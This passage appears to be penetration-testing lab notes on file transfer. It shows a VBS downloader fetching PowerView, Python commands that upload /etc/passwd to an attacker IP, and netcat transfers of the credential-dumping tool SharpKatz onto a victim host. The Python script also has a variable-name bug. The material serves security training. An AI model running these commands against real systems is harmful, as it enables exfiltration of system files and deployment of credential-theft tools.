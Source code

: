 - Usage on Windows using cscript.exe

```shell
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## <span style="color:lightgreen">Upload Operations using Python3</span>

-------
- Python3

```python
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```


# Miscellaneous File Transfer Methods
----
- NetCat

```shell
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe

victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe

# From our attack machine
Sauuron@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
Sauuron@htb[/htb]$ # Example using Original Netcat
Sauuron@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
Sauuron@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe # --send-only will terminate the connection once the file is recieved
```
